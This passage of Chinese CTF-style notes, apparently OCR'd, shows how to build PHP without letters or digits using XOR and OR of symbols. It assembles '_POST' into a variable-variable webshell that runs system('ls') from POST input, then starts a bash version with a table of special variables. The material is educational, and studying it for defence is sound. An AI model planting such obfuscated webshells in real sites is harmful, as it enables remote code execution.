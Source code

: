 2. **异或**
    - 通过两个非字母数字字符的异或得到目标字母。
    - 例如，构造字母 `a`：
        
        ```python
        $a = '@' ^ '!'; // 结果为 a
        ```
        
3. **或**
    - 通过两个非字母数字字符的或运算得到目标字母。
    - 例如，构造字母 `s`：
        
        ```python
        $s = 'DC3' | '`'; // 结果为 s
        ```
        

### 异或/或 便于理解

在 PHP 中，`$$` 是可变变量的一种形式。`$$` 的用法是将一个变量的值作为另一个变量的名字来访问。

1. **解码 `$_POST` 字符串**：
    
    ```python
    $__ = ("#" ^ "|"); // 结果是 _
    $__ .= ("." ^ "~"); // 结果是 _P
    $__ .= ("/" ^ "`"); // 结果是 _PO
    $__ .= ("|" ^ "/"); // 结果是 _POS
    $__ .= ("{" ^ "/"); // 结果是 _POST
    ```
    
2. **可变变量：`$$__`**
    - `$__` 的值是 `"_POST"`，因此 `$$__` 实际上是指 `$_POST`。
3. **进一步分析 `$$__[_]($$__[__])`**
    - 等价于 `$_POST[_]($_POST[__])`。
    - 动态调用 `$_POST[_]` 中的函数，并传入 `$_POST[__]` 作为参数。
4. **总结攻击手法**：
    - 通过 POST 请求执行任意代码，例如：
        
        ```python
        $_POST['_'] = 'system'; // 动态调用 system() 函数$_POST['__'] = 'ls'; // system 函数执行的命令
        ```
        

### **bashshell** 无字母无数字执行

> https://xz.aliyun.com/t/12242
> 

| **变量名** | **含义** |
| --- | --- |
| $0 | 脚本本身的名字 |
| $1 | 脚本后所输入的第一串字符 |
| $2 | 传递给该 shell 脚本的第二个参数 |
| $* | 脚本后所输入的所有字符 |
| $@ | 脚本后所输入的所有字符 |
| $_ | 表示上一个命令的最后一个参数 |
| $# | 脚本后所输入的字符串个数 |
| $$ | 脚本运行的当前进程 ID 号 |
| $! | 表示最后执行的后台命令的 PID |
| $? | 显示最后命令的退出状态，0 表示没有错误，其他表示有错误 |
